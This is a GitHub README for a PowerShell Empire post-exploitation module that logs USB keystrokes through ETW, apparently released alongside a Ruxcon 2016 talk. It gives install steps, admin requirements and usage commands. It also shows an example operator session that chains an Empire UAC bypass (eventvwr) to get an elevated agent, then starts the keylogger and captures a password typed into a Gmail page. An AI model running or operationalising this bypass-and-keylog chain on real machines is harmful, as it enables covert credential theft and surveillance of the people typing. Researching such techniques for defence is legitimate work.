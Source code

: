 # ETWKeylogger_PSE
PowerShell Empire module for our keylogging technique presented at Ruxcon 2016

Slides:  
https://ruxcon.org.au/slides/

C# POC Code:  
https://github.com/CyberPoint/Ruxcon2016ETW/tree/master/KeyloggerPOC


##Install
Copy files to PSE:  
Get-USBKeystrokes.ps1 -> `<Empire_dir`>/data/module_source/collection/  
USBKeyLogger.py -> `<Emipre_dir`>/lib/modules/collection/  

##Requirements
Windows 7* and up  
*Windows 7 - No USB 3.0 support  
USB Keyboard  
Admin priveleges  
.NET 4.5.2     

##Usage
Requires admin to run (see UAC bypasses: privesc/bypassuac*). From a PSE agent session:  

usemodule collection/USBKeylogger  
execute  

##Example Session
(include UAC bypass)  

(Empire: privesc/bypassuac) > [+] Initial agent PTELZMW2KL4NKZMD from 10.10.10.181 now active  
interact  PTELZMW2KL4NKZMD  
(Empire: PTELZMW2KL4NKZMD) > usemodule privesc/bypassuac_eventvwr  
(Empire: privesc/bypassuac_eventvwr) > set Listener 1  
(Empire: privesc/bypassuac_eventvwr) > execute  
(Empire: privesc/bypassuac_eventvwr) >  
Job started: Debug32_gz2k1  
[+] Initial agent BQSZGT2BZH3A4CUT from 10.10.10.181 now active  
interact BQSZGT2BZH3A4CUT  
(Empire: BQSZGT2BZH3A4CUT) > usemodule collection/USBKeylogger  
(Empire: collection/USBKeylogger) > execute  
(Empire: collection/USBKeylogger) >  
Job started: Debug32_24nbw

ETWKeylogger, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null  
ETW library loaded  
Callback registered. Starting keylogger  
Started keylogger  

[=== Gmail and 1 more page ‎- Microsoft Edge - 09/11/2016:13:02:20 ===]  
password  

##Contact Us  
@CyberPoint_SRT  
SRT [at] cyberpointllc.com
